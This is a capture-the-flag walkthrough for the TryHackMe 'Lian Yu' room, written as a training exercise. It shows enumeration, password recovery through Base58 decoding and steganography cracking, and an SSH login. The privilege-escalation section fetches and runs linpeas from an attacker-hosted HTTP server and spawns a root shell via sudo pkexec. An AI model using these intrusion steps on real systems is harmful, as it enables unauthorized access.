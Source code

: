 ```yaml
---
layout: post
title: " Lian Yu - TryHackMe"
date: 2020-07-13
excerpt: "Walkthrough for Lian Yu on TryHackme"
tags: [Lian Yu, TryHackMe, privilege escalation, steganography, website enumeration]
comments: false
---
```


Lian Yu is another beginner level challenge on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough to Find all the flags.

First, let's run nmap with **nmap -sC -sV -T4 [machine ip]**

![Lian Yu nmap](/assets/img/LianYu1.png)

It appears that there is ftp, ssh, tcp, and rpc open. Let's start by taking a look at the website in a web browser. It appears that this website is based on the DC comic book hero, Arrow.

![Lian Yu website](/assets/img/LianYu2.png)

Let's use gobuster to enumerate the website. Let's run **gobuster dir -u [machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt**. After a bit, an **island** subdirectory shows up.

![Lian Yu gobuster](/assets/img/LianYu3.png)

Let's visit the page. It looks like there's a code word, but it doesn't show up. Highlighting the entire page causes it to show up, however.

![Lian Yu island page](/assets/img/LianYu4.png)

Lian_Yu appears in bold, so let's try both ftp ssh in as Lian_Yu. Unfortunately, neither one was successful.

![Lian Yu failed ssh and ftp](/assets/img/LianYu5.png)

We will make note of this code word for later. Next, the hint for the first question is saying the directory is in numbers. It also appears to be 4 digits in length. Let's create a file that contains numbers from 0000 to 9999 with the following **seq -w 9999  > pins.txt**. This will create a text file with all these numbers in it. Let's run **gobuster dir -u http://[machine ip]/island -w pins.txt** and see what shows up. It appears there is another subdirectory of **2100** underneath island. This is the answer to the first question.

![Lian Yu gobuster 2100](/assets/img/LianYu6.png)

There is a video on this page, but it appears to be a part of the first episode of the Arrow television series. When I look at the source of the page, however, there is a comment as shown below.

![Lian Yu 2100 page source](/assets/img/LianYu7.png)

The hint for this question mentions searching for a file by extension, maybe .ticket is the file extension? I navigated to the dirbuster wordlist with **cd /usr/share/wordlists/dirbuster** and ran **pw-inspector -i directory-list-lowercase-2.3-medium.txt -m 11 - M 11 -o ~/arrow.txt**. I knew the file was 11 characters before the potential extension of ticket. I then used this as the wordlist in gobuster under the /island/2100 directory as follows **gobuster dir -u http://[machine ip]/island/2100/ -w arrow.txt -x .ticket**. Within a couple of moments it uncovers **green_arrow.ticket**.

![Lian Yu green_arrow.ticket](/assets/img/LianYu8.png)

Let's navigate to that page. We are provided with a "token". The hint states it appears to be base, so use cyberchef as recommended and you will eventually figure out it was encoded in Base58. This decoded is the ftp password, which is the answer to the 3rd question.

![Lian Yu Base 58 decode](/assets/img/LianYu10.png)

Let's try logging in to the site via ftp, as we have the password. Remember vigilante that we uncovered earlier? Let's see if that's the user.

![Lian Yu FTP Access](/assets/img/LianYu11.png)

Success! Let's see what's on this ftp site.

![Lian Yu ftp directory listing](/assets/img/LianYu12.png)

Let's save all these pictures and see what they are with **get Leave_me_alone.png, get Queen's_Gambit.png,** and **get aa.jpg**.

![Lian Yu get files](/assets/img/LianYu13.png)

Let's type **quit** and then open up these images to see what's in them. **aa.jpg** and **Queen's_Gambit.png** open fine, but there is an error when attempting to open **Leave_me_alone.png**. .jpg files can be used in steganography, so let's use stegcracker with **stegcracker aa.jpg**. After a few moments, it uncovers the password of password, and extracts the contents to aa.jpg.out.

![Lian Yu stegcracker](/assets/img/LianYu14.png)

Running **file aa.jpg.out** reveals that this is a zip file, let's rename it to .zip with **mv aa.jpg.out aa.zip**

![Lian Yu change file to zip](/assets/img/LianYu15.png)

Inside the zip files are two files, one is a 5 character name, which is the answer to the next question.

![Lian Yu Open Zip File](/assets/img/LianYu16.png)

The 5 letter file name includes the ssh password. However, we do not have a username and vigilante does not work. Let's reconnect as vigilante via ftp and type **cd ..** followed by **ls** to list all the user directories.

![Lian Yu enumerate user folders via ftp](/assets/img/LianYu17.png)

It appears that slade is another user. Let's try logging in via ssh as slade with **ssh slade@[machine ip]** and utilize the password uncovered in the zip file earlier. Success, let's run **ls** and a user.txt file is there. Let's run **cat user.txt** to uncover the user flag.

![Lian Yu ssh connection](/assets/img/LianYu19.png)

Let's use linpeas to enumerate this host for interesting files. First, let's server up an http server with **python3 -m http.server**

![Lian Yu Python HTTP Server](/assets/img/LianYu20.png)

Now, let's navigate to the /tmp folder on our victim with **cd /tmp** since it's typically a world writeable directory. Next, let's use **wget http://[attacker op]:8000/linpeas.sh** followed by **chmod 777 linpeas.sh** and finally **./linpeas.sh** to start enumerating our host. Unfortunately, this does not turn up much. Let's run **sudo -l** and see what shows up.

![Liam Yu sudo -l](/assets/img/LianYu22.png)

Let's run **sudo /usr/bin/pkexec /bin/sh**. Now we have a root shell.

![Lian Yu Root Shell](/assets/img/LianYu23.png)

Now let's run **cd /root**, followed by **ls**, and then finally, **cat root.txt** to get the final flag.

![Lian Yu Root Flag](/assets/img/LianYu24.png)

